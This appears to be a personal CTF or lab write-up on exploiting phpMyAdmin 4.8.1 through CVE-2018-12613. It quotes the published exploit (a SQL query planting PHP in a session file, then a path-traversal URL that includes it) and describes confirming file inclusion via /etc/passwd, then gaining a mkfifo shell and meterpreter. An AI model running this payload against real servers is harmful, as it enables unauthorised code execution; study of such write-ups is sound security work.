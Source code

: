 ![[Pasted image 20230504022927.png]]
```
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution  
# Date: 2018-06-21  
# Exploit Author: VulnSpy  
# Vendor Homepage: http://www.phpmyadmin.net  
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz  
# Version: 4.8.0, 4.8.1  
# Tested on: php7 mysql5  
# CVE : CVE-2018-12613  
  
1. Run SQL Query : select '<?php phpinfo();exit;?>'  
2. Include the session file :  
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```

This isn't very descriptive so I just tried looking at other things.

## /etc/passwd
![[Pasted image 20230504023951.png]]
With LFI confirmed, there is this script that will take my cookie and a token and authenticate to the server. It will then execute a PHP system command to execute arbitrary commands:
https://www.exploit-db.com/exploits/50457. This is similar to the shitty exploit (un)description as above.

![[Pasted image 20230504025827.png]]

A reverse shell does reach out, however it seems to crash immediately.
![[Pasted image 20230504025950.png]]

Using a mkfifo shell worked, then setting up meterpreter for stability.
